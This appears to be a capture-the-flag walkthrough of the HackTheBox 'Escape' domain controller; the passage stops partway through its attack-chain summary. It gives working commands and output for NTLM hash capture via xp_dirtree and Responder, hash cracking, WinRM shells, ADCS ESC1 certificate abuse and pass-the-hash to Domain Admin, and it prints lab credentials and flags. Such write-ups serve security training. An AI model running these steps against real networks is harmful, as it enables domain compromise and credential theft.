# HackTheBox — Escape | Full Walkthrough

> **Machine:** Escape
> **Difficulty:** Medium (Windows)
> **Author:** vodanhtieutot
> **Platform:** HackTheBox

---

## Table of Contents

1. [Overview](#1-overview)
2. [Reconnaissance — Nmap Scan](#2-reconnaissance--nmap-scan)
3. [SMB Enumeration — Public Share](#3-smb-enumeration--public-share)
4. [Credential Discovery — SQL Server Procedures PDF](#4-credential-discovery--sql-server-procedures-pdf)
5. [MSSQL Access — xp_dirtree + Responder](#5-mssql-access--xp_dirtree--responder)
6. [Hash Cracking — Hashcat (NTLMv2)](#6-hash-cracking--hashcat-ntlmv2)
7. [Initial Access — Evil-WinRM as sql_svc](#7-initial-access--evil-winrm-as-sql_svc)
8. [Lateral Movement — SQLServer Error Log](#8-lateral-movement--sqlserver-error-log)
9. [Access as Ryan.Cooper — User Flag](#9-access-as-ryancooper--user-flag)
10. [Privilege Escalation — ADCS ESC1 (certipy-ad)](#10-privilege-escalation--adcs-esc1-certipy-ad)
11. [Clock Sync Fix — KRB_AP_ERR_SKEW](#11-clock-sync-fix--krb_ap_err_skew)
12. [Root Access — Administrator via Pass-the-Hash](#12-root-access--administrator-via-pass-the-hash)
13. [Flags & Answers Summary](#13-flags--answers-summary)
14. [Attack Chain Summary](#14-attack-chain-summary)
15. [Tools Used](#15-tools-used)

---

## 1. Overview

**Escape** is a Medium-rated Windows machine on HackTheBox running an Active Directory Domain Controller with Microsoft SQL Server 2019. The attack path starts with an unauthenticated SMB share containing a PDF that leaks SQL credentials, pivots through an NTLMv2 hash capture via `xp_dirtree`, cracks the hash to gain WinRM access, discovers plaintext credentials in an SQL error log, and finally escalates to Domain Admin by abusing a misconfigured ADCS certificate template (**ESC1 — Enrollee Supplies Subject**).

```
Recon → SMB Public share → SQL Server Procedures.pdf → PublicUser:GuestUserCantWrite1
→ MSSQL xp_dirtree → Responder NTLMv2 capture → Hashcat → sql_svc:REGGIE1234ronnie
→ Evil-WinRM sql_svc → C:\SQLServer\LOGs\ERRORLOG.BAK → Ryan.Cooper:NuclearMosquito3
→ Evil-WinRM Ryan.Cooper → user flag ✓
→ certipy-ad ESC1 → administrator@sequel.htb cert → NTLM hash → Evil-WinRM Administrator
→ root flag ✓
```

**Lab Environment:**

| Detail | Value |
|---|---|
| Target IP | `10.129.228.253` |
| Machine Name | `DC` |
| Domain | `sequel.htb` / `dc.sequel.htb` |
| OS | Windows Server (Active Directory DC) |
| SQL Server | Microsoft SQL Server 2019 (15.0.2000) RTM |
| Open Ports | 53, 88, 135, 139, 389, 445, 464, 593, 636, 1433, 3268, 3269, 5985, 9389 |
| Attacker | Kali Linux (vodanhtieutot) |

---

## 2. Reconnaissance — Nmap Scan

### 2.1 Quick Port Scan

Full port scan with `-Pn` to skip ping and `--min-rate 5000` for speed:

```bash
nmap -Pn -p- --min-rate 5000 10.129.228.253
```



The scan reveals a classic Windows Domain Controller fingerprint — Kerberos (88), LDAP (389/636/3268/3269), SMB (139/445), RPC (135/593), and notably **MSSQL on port 1433** and **WinRM on port 5985**.

| Port | Service | Notes |
|---|---|---|
| 53/tcp | domain | DNS — Simple DNS Plus |
| 88/tcp | kerberos-sec | Kerberos authentication |
| 135/tcp | msrpc | Microsoft RPC |
| 139/tcp | netbios-ssn | NetBIOS |
| 389/tcp | ldap | Active Directory LDAP |
| 445/tcp | microsoft-ds | SMB |
| 464/tcp | kpasswd5 | Kerberos password change |
| 593/tcp | http-rpc-epmap | RPC over HTTP |
| 636/tcp | ldapssl | LDAP over SSL |
| 1433/tcp | ms-sql-s | **Microsoft SQL Server 2019** |
| 3268/tcp | globalcatLDAP | Global Catalog LDAP |
| 3269/tcp | globalcatLDAPssl | Global Catalog LDAP SSL |
| 5985/tcp | wsman | **WinRM — remote management** |
| 9389/tcp | adws | AD Web Services |

### 2.2 Service & Script Scan

Aggressive scan on key discovered ports:

```bash
nmap -sC -sV -A -Pn -p 53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389 10.129.228.253
```



Key findings from the detailed scan:

| Detail | Value |
|---|---|
| Domain | `sequel.htb` |
| Computer Name | `DC` |
| DNS Name | `dc.sequel.htb` |
| SQL Server | Microsoft SQL Server 2019 RTM (15.00.2000.00) |
| SSL Cert SAN | `dc.sequel.htb`, `sequel.htb`, `sequel` |

> **Note:** The SSL certificates on LDAP confirm the domain name `sequel.htb`. The SQL Server version (15.0.2000 RTM = unpatched SQL Server 2019) and the presence of WinRM (port 5985) are both high-value vectors.

---

## 3. SMB Enumeration — Public Share

### 3.1 List Shares Without Authentication

Enumerate SMB shares anonymously (null session):

```bash
smbclient -L //10.129.228.253 -N
```



Available shares:

| Sharename | Type | Comment |
|---|---|---|
| `ADMIN$` | Disk | Remote Admin |
| `C$` | Disk | Default share |
| `IPC$` | IPC | Remote IPC |
| `NETLOGON` | Disk | Logon server share |
| `Public` | Disk | **No authentication required** |
| `SYSVOL` | Disk | Logon server share |

> 🎯 The `Public` share stands out — it's not a default Windows DC share and may contain world-readable files.

### 3.2 Browse the Public Share

Connect without credentials and list contents:

```bash
smbclient //10.129.228.253/Public -N
smb: \> ls
```



```
SQL Server Procedures.pdf    A    49551    Fri Nov 18 08:39:43 2022
```

> 💡 A PDF named **"SQL Server Procedures"** on a machine running MSSQL — almost certainly contains database credentials or configuration instructions. Download it immediately:
> ```bash
> smb: \> get "SQL Server Procedures.pdf"
> ```

---

## 4. Credential Discovery — SQL Server Procedures PDF

Open the downloaded PDF and inspect its contents:



The PDF contains a **"Bonus"** section:

> *For new hired and those that are still waiting their users to be created and perms assigned, can sneak a peek at the Database with user `PublicUser` and password `GuestUserCantWrite1`. Refer to the previous guidelines and make sure to switch the "Windows Authentication" to "SQL Server Authentication".*

> 🎯 **Credentials leaked in PDF on public share:**
> - **Username:** `PublicUser`
> - **Password:** `GuestUserCantWrite1`
> - **Auth type:** SQL Server Authentication (not Windows)

---

## 5. MSSQL Access — xp_dirtree + Responder

### 5.1 Connect to MSSQL as PublicUser

Use Impacket's `mssqlclient` to connect with the discovered credentials:

```bash
impacket-mssqlclient PublicUser:'GuestUserCantWrite1'@10.129.228.253
```



Connection succeeds. The account has limited privileges (guest on `master`), but enough to run extended stored procedures.

### 5.2 Force NTLM Authentication via xp_dirtree

The `xp_dirtree` procedure causes the SQL Server to make a UNC path request to an attacker-controlled share. Because SQL Server runs as a service account, this forces it to send its NTLMv2 hash to us:

```sql
SQL (PublicUser  guest@master)> EXEC master..xp_dirtree '\\10.10.14.255\share', 1, 1
```



### 5.3 Capture the NTLMv2 Hash with Responder

Start Responder on the VPN interface before executing `xp_dirtree`:

```bash
sudo responder -I tun0
```



Responder captures the incoming NTLMv2 authentication:



```
[SMB] NTLMv2-SSP Client   : 10.129.228.253
[SMB] NTLMv2-SSP Username : sequel\sql_svc
[SMB] NTLMv2-SSP Hash     : sql_svc::sequel:b74fcf578f906c32:727D41E5F5674D055244CB3B213DC5F4:...
```

> 🎯 **NTLMv2 hash captured for service account `sequel\sql_svc`.**

---

## 6. Hash Cracking — Hashcat (NTLMv2)

Save the captured hash to a file and crack with `rockyou.txt`:

```bash
hashcat -m 5600 sql_svc.hash /usr/share/wordlists/rockyou.txt
```



```
SQL_SVC::sequel:... : REGGIE1234ronnie

Session.........: hashcat
Status.........: Cracked
Hash.Mode......: 5600 (NetNTLMv2)
Time.Started...: Thu Jun 11 01:49:33 2026 (8 secs)
```

> 🎯 **Cracked credentials:**
> - **Username:** `sql_svc`
> - **Password:** `REGGIE1234ronnie`
>
> The hash cracked in only **8 seconds** against `rockyou.txt`, indicating a weak password.

---

## 7. Initial Access — Evil-WinRM as sql_svc

WinRM (port 5985) is open, so we can log in directly:

```bash
evil-winrm -i 10.129.228.253 -u sql_svc -p REGGIE1234ronnie
```



```
*Evil-WinRM* PS C:\Users\sql_svc\Documents> cd ~
*Evil-WinRM* PS C:\Users\sql_svc> cd ..
*Evil-WinRM* PS C:\Users> cd ..
*Evil-WinRM* PS C:\> ls
```

Shell established as `sql_svc`. Notable directories on `C:\`:

| Directory | Notes |
|---|---|
| `Program Files` | Standard |
| `Program Files (x86)` | Standard |
| `SQLServer` | **Non-standard — SQL Server installation artifacts** |
| `Users` | User profiles |
| `Windows` | OS |

> 💡 The `C:\SQLServer` directory is non-standard and warrants investigation.

---

## 8. Lateral Movement — SQLServer Error Log

### 8.1 Browse SQLServer Directory

```powershell
*Evil-WinRM* PS C:\> cd SQLServer
*Evil-WinRM* PS C:\SQLServer> ls
*Evil-WinRM* PS C:\SQLServer> cd LOgs
*Evil-WinRM* PS C:\SQLServer\LOgs> ls
```



The `Logs` subdirectory contains `ERRORLOG.BAK` (27608 bytes) — a backup of the SQL Server error log. SQL Server error logs routinely record failed login attempts, sometimes capturing **passwords typed by mistake into the username field**.

### 8.2 Credential Leak in ERRORLOG.BAK

```powershell
*Evil-WinRM* PS C:\SQLServer\LOgs> cat ERRORLOG.BAK
```



```
2022-11-18 13:43:07.44  Logon    Logon failed for user 'sequel.htb\Ryan.Cooper'.
                                 Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48  Logon    Logon failed for user 'NuclearMosquito3'.
                                 Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
```

> 🎯 **Classic "fat-finger" credential leak:** The user `Ryan.Cooper` typed their password `NuclearMosquito3` into the username field on a second login attempt, which SQL Server logged as a failed login for that "username".
> - **Username:** `Ryan.Cooper`
> - **Password:** `NuclearMosquito3`

---

## 9. Access as Ryan.Cooper — User Flag

### 9.1 WinRM Login as Ryan.Cooper

```bash
evil-winrm -i 10.129.228.253 -u 'Ryan.Cooper' -p 'NuclearMosquito3'
```



```
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> cd C:\Users\Ryan.Cooper\Desktop\user.txt
```

### 9.2 User Flag

```powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop> cat user.txt
a9cc07b392447e94fb0315275a41ba5a
```



> 🚩 **user.txt (User Flag):** `a9cc07b392447e94fb0315275a41ba5a`

---

## 10. Privilege Escalation — ADCS ESC1 (certipy-ad)

### 10.1 Enumerate Certificate Templates

Active Directory Certificate Services (ADCS) is a common privilege escalation vector. Enumerate the CA and templates with `certipy-ad`:

```bash
certipy-ad find -u 'Ryan.Cooper@sequel.htb' -p 'NuclearMosquito3' \
  -dc-ip 10.129.228.253 -vulnerable -stdout
```



Certipy finds **1 Certificate Authority** (`sequel-DC-CA`) and **12 enabled certificate templates**.

### 10.2 Vulnerable Template — ESC1 (UserAuthentication)

The output reveals the `UserAuthentication` template is vulnerable to **ESC1**:



Key vulnerability indicators:

| Property | Value | Risk |
|---|---|---|
| Template Name | `UserAuthentication` | — |
| Client Authentication | `True` | Can authenticate as any user |
| **Enrollee Supplies Subject** | **True** | **ESC1 — attacker can specify any UPN** |
| Requires Manager Approval | `False` | No approval gate |
| Authorized Signatures Required | `0` | No co-signing required |
| Enrollment Rights | `SEQUEL.HTB\Domain Users` | **Any domain user can enroll** |

> 🎯 **ESC1 vulnerability:** Because `Enrollee Supplies Subject` is `True`, any domain user can request a certificate with an arbitrary Subject Alternative Name (SAN). We can request a certificate claiming to be `administrator@sequel.htb`.

### 10.3 Request Administrator Certificate

```bash
certipy-ad req -u 'Ryan.Cooper@sequel.htb' -p 'NuclearMosquito3' -dc-ip 10.129.228.253 \
  -ca 'sequel-DC-CA' -template 'UserAuthentication' -upn 'administrator@sequel.htb'
```



```
[*] Requesting certificate via RPC
[*] Request ID is 14
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Saving certificate and private key to 'administrator.pfx'
```

> 🎯 Certificate issued with `administrator@sequel.htb` as the UPN — now use it to authenticate.

---

## 11. Clock Sync Fix — KRB_AP_ERR_SKEW

### 11.1 Kerberos Clock Skew Error

Attempting to authenticate with the certificate fails immediately:

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.228.253
```



```
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

Kerberos requires the client clock to be within 5 minutes of the DC. The attacker's Kali machine clock is out of sync.

### 11.2 Sync Clock to DC

```bash
sudo timedatectl set-ntp off
sudo rdate -n 10.129.228.253
```



```
Thu Jun 11 10:00:45 EDT 2026
```

Clocks are now synced. Re-run `certipy-ad auth` to retrieve the Administrator NTLM hash:

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.228.253
```

> The authentication succeeds and `certipy-ad` outputs the Administrator's NTLM hash: `a52f78e4c751e5f5e17e1e9f3e58f4ee`

---

## 12. Root Access — Administrator via Pass-the-Hash

Use the Administrator's NTLM hash with Evil-WinRM (Pass-the-Hash — no plaintext password needed):

```bash
evil-winrm -i 10.129.228.253 -u 'administrator' -H 'a52f78e4c751e5f5e17e1e9f3e58f4ee'
```



```
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
29a516a4040c575133bd1c3e7012c120
```

> 🚩 **root.txt (Root Flag):** `29a516a4040c575133bd1c3e7012c120`

---

## 13. Flags & Answers Summary

| Flag | Location | Value |
|---|---|---|
| User Flag | `C:\Users\Ryan.Cooper\Desktop\user.txt` | `a9cc07b392447e94fb0315275a41ba5a` |
| Root Flag | `C:\Users\Administrator\Desktop\root.txt` | `29a516a4040c575133bd1c3e7012c120` |

---

## 14. Attack Chain Summary

```
[1] Nmap -Pn -p- --min-rate 5000
        → 14 open ports: 53, 88, 135, 139, 389, 445, 464, 593, 636, 1433, 3268, 3269, 5985, 9389

[2] Nmap -sC -sV -A
        → Domain: sequel.htb | Computer: DC | SQL Server 2019 (15.0.2000 RTM)
        → WinRM on 5985 (lateral movement vector confirmed)

[3] smbclient -L //10.129.228.253 -N
